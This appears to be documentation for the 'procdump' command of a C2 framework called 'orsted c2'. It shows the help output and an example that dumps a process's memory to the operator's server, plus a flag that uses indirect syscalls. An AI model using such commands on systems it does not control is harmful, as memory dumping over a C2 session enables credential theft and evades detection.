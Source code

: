 ```yaml
---

title: procdump
descripton: orsted c2 procdump
---
```


### General

`procdump` allows you to dump process memory.

```
[Session 11: haroun@DESKTOP-DU89UIV] » procdump --help

dump a process to a local file in the server

Usage:
  procdump [flags] pid path

Args:
  pid   string    pid of the process
  path  string    local destination on the server

Flags:
  -h, --help       display help
  -n, --native     Dump process with native indirect syscall ntapi
```

For example

```powershell
[Session 11: haroun@DESKTOP-DU89UIV] » procdump 7655 /tmp/dump_7655
```

You can use the `--native` flag to dump a procewss with indirect syscall.
